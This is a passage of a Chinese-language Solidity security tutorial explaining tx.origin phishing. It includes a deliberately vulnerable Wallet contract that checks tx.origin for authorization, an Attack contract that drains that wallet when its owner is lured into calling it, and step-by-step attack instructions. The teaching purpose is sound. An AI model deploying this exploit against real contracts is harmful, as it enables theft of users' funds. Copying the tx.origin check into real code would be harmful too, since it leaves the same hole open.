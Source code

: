 **如何避免**：  
在任何时候调用外部函数时，都要仔细考虑这个函数失败后对自己逻辑的影响。


## `tx.origin` 钓鱼欺骗

如果你要在合约中使用 `tx.origin`  这个字段，要特别注意一下，这个字段代表的是调用链的最初发起者，而不仅是上一层的调用者（`msg.sender`），这两者在有些情况下是完全不一样的。例如，如果合约 A 调用了 B，B 调用了 C ，那么在 C 中 `msg.sender` 代表的是 B ，而 `tx.origin` 代表的是 A 。

**[攻击示例](https://solidity-by-example.org/hacks/phishing-with-tx-origin/)**:  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

contract Wallet {
    address public owner;

    constructor() payable {
        owner = msg.sender;
    }

    function transfer(address payable _to, uint _amount) public {
        require(tx.origin == owner, "Not owner");

        (bool sent, ) = _to.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    address payable public owner;
    Wallet wallet;

    constructor(Wallet _wallet) {
        wallet = Wallet(_wallet);
        owner = payable(msg.sender);
    }

    function attack() public {
        wallet.transfer(owner, address(wallet).balance);
    }
}
```
在这段代码中，`Wallet` 合约的本意是只允许合约的拥有者（部署者）调用 `Wallet.transfer` 转账给别人；但如果 `Attack` 的拥有者成功引诱 `Wallet` 的拥有者调用 `Attack.attack` ，那么 `Attack` 就也可以调用 `Wallet.transfer`， 从而稍无声息地把币都转给 `Attack` 的拥有者了。

**攻击步骤**：  
1. Alice 部署 `Wallet` 合约。
2. Eve 使用 `Wallet` 的地址部署 `Attack` 合约。
3. Eve 引诱 Alice 调用 `Attack.attack`。
4. Eve 成功盗取了 Alice 账户中的所有币。

**关键知识点**：  
从[文档](https://docs.soliditylang.org/en/v0.8.16/units-and-global-variables.html#block-and-transaction-properties)中可以看到，`msg.sender` 和 `tx.origin` 代表了不同的含义：
- `msg.sender`: 当前调用者
- `tx.origin`: transaction 发送者

